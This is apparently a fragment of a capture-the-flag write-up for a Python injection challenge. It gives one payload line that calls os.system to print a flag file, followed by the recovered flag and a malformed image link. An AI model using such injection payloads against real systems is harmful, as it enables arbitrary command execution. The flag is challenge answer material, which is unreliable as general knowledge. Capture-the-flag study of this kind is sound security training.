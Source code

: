 Python injection
```py
__import__('os').system('cat flag.txt')
```
## flag
flag{we_are_saved_from_py2_k}
